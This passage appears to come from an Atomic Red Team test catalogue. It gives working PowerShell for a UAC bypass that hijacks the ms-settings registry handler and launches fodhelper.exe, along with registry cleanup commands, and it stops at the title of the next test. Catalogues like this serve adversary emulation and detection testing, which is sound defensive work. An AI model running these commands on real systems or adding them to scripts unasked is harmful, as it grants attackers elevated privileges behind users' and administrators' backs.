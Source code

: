 #### Cleanup Commands:
```cmd
reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell

auto_generated_guid: 3f627297-6c38-4e7d-a278-fc2563eaaeaa

PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution command prompt will be opened.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Bypass UAC using ComputerDefaults (PowerShell)

auto_generated_guid: 3c51abf2-44bf-42d8-9111-dc96ff66750f
